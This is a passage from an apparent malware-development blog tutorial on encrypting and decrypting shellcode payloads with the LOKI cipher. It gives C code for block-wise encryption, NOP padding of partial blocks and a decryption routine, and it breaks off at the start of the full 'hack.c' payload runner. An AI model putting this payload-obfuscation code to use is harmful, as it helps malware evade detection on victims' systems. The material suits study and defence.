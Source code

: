 How it works?    

Loop through shellcode in `8-byte` blocks:    

```cpp
for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_encrypt(shellcode + i * BLOCK_SIZE, key);
}
```

For each `8-byte` block, the `loki_encrypt` function is called with the current block and the encryption key. `shellcode + i * BLOCK_SIZE` computes the address of the current `8-byte` block in the shellcode.     

After processing all full `8-byte` blocks, the function checks if there are any remaining bytes that do not form a complete block.     

```cpp
int remaining = shellcode_len % BLOCK_SIZE;
if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
  loki_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
}
```

Note that as usually, a padding array pad of `8 bytes` is initialized with `0x90` (`NOP` instruction in `x86` assembly).     

This function ensures that the entire shellcode, regardless of its length, is encrypted using the LOKI algorithm, with proper handling of any partial blocks.     

Then create decrypting logic:    

```cpp
void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}
```

The final full source code for running payload is looks like this (`hack.c`):    

```cpp
/*
* hack.c
* encrypt/decrypt payload via LOKI
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 8
```